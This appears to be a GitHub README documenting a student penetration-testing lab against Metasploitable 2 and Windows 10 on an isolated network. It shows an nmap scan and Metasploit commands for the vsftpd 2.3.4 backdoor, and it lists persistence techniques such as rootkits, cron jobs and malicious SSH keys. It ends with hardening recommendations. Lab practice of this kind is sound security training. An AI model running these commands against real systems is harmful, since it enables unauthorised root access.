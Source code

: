 # Penetration Test Lab: Kali Linux, Metasploitable 2, and Windows VM

This project documents a penetration testing lab I set up using:
- 🐱 Kali Linux (Attacker)
- 💣 Metasploitable 2 (Target)
- 🪟 Windows 10 VM (Target)

## 🛠️ Lab Setup

- **Kali Linux** as the attacking machine
- **Metasploitable 2** running vulnerable services
- **Windows 10** for testing client-side attacks and vulnerabilities
- **Virtualization:** VirtualBox 
- **Network Setup**: Host-only adapter (isolated lab environment)
  
![Screenshot (282)](https://github.com/user-attachments/assets/d3da1f22-0793-4cfb-9feb-ab1f03acbd5c)

## 🧰 Tools Used

- `Nmap` – Port scanning and OS detection
- `Metasploit Framework` – Exploitation and enumeration
- `Enum4linux` – SMB enumeration
- `Netcat` – Shell access
- `msfvenom` – Payload generation
- `FTP` / `Telnet` – Protocol testing

## 📋 Test Phases

### 1. Executive Summary
A penetration test was conducted against a Metasploitable 2 and Windows 10 VM. Using tools like Nmap and Metasploit, several vulnerabilities were identified, with successful root-level exploitation of the Linux system via vsftpd 2.3.4. Recommendations include port hardening, access control, and regular vulnerability scanning.

---

### 2. 🗺️ Plan and Scope

| Machine | Role      | OS             |
|---------|-----------|----------------|
| Kali    | Attacker  | Kali Rolling   |
| Meta    | Target    | Metasploitable 2 |
| Win10   | Target    | Windows 10     |

- **Scope**: Limit testing to Metasploitable and Windows 10 within host-only network.
- **Tools**: Nmap, Metasploit, FTP brute force, vulnerability scanners.

---

### 3. 🔎 Scanning and Enumeration

```bash
nmap -sS -sV -O 192.168.56.101
```

- Identified open ports on Metasploitable: 21 (FTP), 22 (SSH), 80 (HTTP), etc.

- Windows VM appeared with all ports filtered.

- Used Metasploit to probe HTTP services and identify FTP vulnerabilities.

- Discovered vulnerable FTP service: vsftpd 2.3.4
  
![Screenshot (283)](https://github.com/user-attachments/assets/416a3747-d362-4074-a81f-d2b43a20d19c)
![Screenshot (285)](https://github.com/user-attachments/assets/8370f191-0df4-4789-9ea9-870cf374fb24)
![Screenshot (286)](https://github.com/user-attachments/assets/f2c2e45b-094a-4e4f-8208-5e0f790938e3)

### 4. 🛠️ Vulnerability Assessment

 -Identified multiple services on Metasploitable with known exploits.

- Selected FTP service `(vsftpd 2.3.4)` for exploitation due to publicly available and reliable Metasploit module.

### 5. 🎯 Exploitation (Establishing Access)

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```
- Successfully gained root shell access to the Linux target via vsftpd backdoor.

- Verified full system control from the attacking Kali machine.
- 
![Screenshot (287)](https://github.com/user-attachments/assets/efc44a1e-9645-405c-8849-425d8e726f8f)
### 6. 🔒 Maintaining Access
- Maintained root access using reverse shells.

- Simulated persistence techniques:

- Install rootkits

- Schedule cron jobs

- Add malicious SSH keys

### 7. 🛡️ Recommendations
### Linux (Metasploitable):

- Disable unused services (e.g., FTP)

- Apply latest security patches

- Enable firewall rules to limit access

### Windows 10:

- Enable all OS updates

- Configure Windows Defender properly

- Monitor logs and access attempts

### 8. 🧠 Final Reflection
This penetration test lab helped reinforce:

- Real-world enumeration and exploitation workflows
  
- Metasploit use in practical engagements
  
- Defensive security understanding through post-exploit reflection
  
# Next Steps:

- Learn client-side attacks
  
- Perform privilege escalation on Windows targets
  
- Explore web application vulnerabilities

### 🧾 References

- Mastering Metasploit - Packtpub

- SI110 Cyber-Attack Phases – USNA

- Information Security Stack Exchange
- 

